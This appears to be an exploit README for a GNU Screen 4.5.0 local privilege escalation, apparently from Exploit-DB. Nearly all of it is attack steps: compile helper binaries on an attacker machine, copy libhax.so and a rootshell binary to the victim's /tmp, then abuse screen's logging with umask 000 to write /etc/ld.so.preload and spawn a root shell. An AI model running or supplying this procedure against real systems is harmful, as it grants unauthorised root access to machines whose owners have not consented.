 # EDB-ID-41154

GNU Screen 4.5.0 - Local Privilege Escalation 

compile binaries on attacker machine
```
./compile.sh
```

transfer libhax.so and rootshell to victim to the /tmp folder

run commands:

```
cd /etc
umask 000 
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" 
screen -ls
/tmp/rootshell
```

